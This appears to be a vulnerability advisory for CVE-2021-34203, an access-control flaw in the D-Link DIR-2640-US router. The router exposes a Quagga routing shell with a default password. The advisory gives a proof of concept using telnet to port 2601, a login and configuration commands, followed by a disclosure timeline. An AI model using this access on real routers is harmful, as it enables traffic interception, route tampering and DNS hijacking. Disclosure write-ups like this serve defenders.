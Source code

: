 # Config Error on D-Link Devices

## Overview

- **CVE ID**:  [CVE-2021-34203](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-34203)

- **Type**: Incorret Access Control

- **Vendor**: D-LINK (https://www.dlink.com/)

- **Products**: WiFi Router, such as DIR-2640-US.

- **Version**: Firmware (1.01B04)

- **Fix**: None

## Severity

**Critical** 9.4 CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:L

## Description

Router ac2600 (dir-2640-us), when setting PPPoE, will start quagga process in the way of whole network monitoring, and this function uses the original default password and port. An attacker can easily use telnet to log in, modify routing information, monitor the traffic of all devices under the router, hijack DNS and phishing attacks. In addition, this interface is likely to be questioned by customers as a backdoor, because the interface should not be exposed.

## How to Reproduce (POC)

In the network configuration phase, PPPoE is selected to connect to the network.

![PPPoE](images/PPPoE.png)

No matter the router successfully connects to the network, the router will open the following ports for the whole network monitoring.

![listen_ports](images/listen_ports.png)

Then, we can easily log in to quagga with the default password.

```shell
$ telnet 192.168.0.1 2601
Trying 192.168.0.1...
Connected to 192.168.0.1.
Escape character is '^]'.

Hello, this is Quagga (version 1.1.1).
Copyright 1996-2005 Kunihiro Ishiguro, et al.


User Access Verification

Password: 
Router> 
```

Show running system information

```shell
Router# show interface
Interface br0 is up, line protocol is up
  Link ups:       1  last: Thu, 10 Oct 2019 14:51:39 -0400
  Link downs:     0  last: (never)
  vrf: 0
  index 14 metric 0 mtu 1500 
  flags: <UP,BROADCAST,RUNNING,MULTICAST>
  Type: Ethernet
  HWaddr: 52:54:00:12:34:58
  inet 192.168.0.1/24 broadcast 192.168.0.255
  inet6 fe80::5054:ff:fe12:3458/64
Interface br1 is up, line protocol is up
  Link ups:       1  last: Thu, 10 Oct 2019 14:51:39 -0400
  Link downs:     0  last: (never)
  vrf: 0
  index 15 metric 0 mtu 1500 
  flags: <UP,BROADCAST,RUNNING,MULTICAST>
  Type: Ethernet
  HWaddr: ee:91:50:32:0e:85
  inet6 fe80::ec91:50ff:fe32:e85/64
Interface br2 is up, line protocol is up
  Link ups:       1  last: Thu, 10 Oct 2019 14:51:39 -0400
  Link downs:     0  last: (never)
  vrf: 0
  index 16 metric 0 mtu 1500 
  flags: <UP,BROADCAST,RUNNING,MULTICAST>
  Type: Ethernet
  HWaddr: 9e:67:f0:a5:f6:88
  inet6 fe80::9c67:f0ff:fea5:f688/64
Interface br3 is up, line protocol is up
  Link ups:       1  last: Thu, 10 Oct 2019 14:51:39 -0400
```

Clear stored data

```shell
Router# clear
% Command incomplete.
```

Write running configuration to memory, network, or terminal

```shell
Router# write
Configuration saved to /tmp/zebra.conf
```

Of coures, there are many things we can do, such as changing the password, configuring the log, and so on.

## Disclosure Timeline

- 9-Feb-2021 Discoverd the vulnerability
- 9-Feb-2021 Responsibly disclosed vulnerability to vendor
- 10-Feb-2021 D-Link PSIRT would raise to R&D
- 31-Mar-2021 D-Link R&D was investigating the report
- 2-Jun-2021 Requested for CVE-ID assignment

- 10-Jun-2021 CVE-ID Assigned
- 13-Jun-2021 Notified CVE about a publication
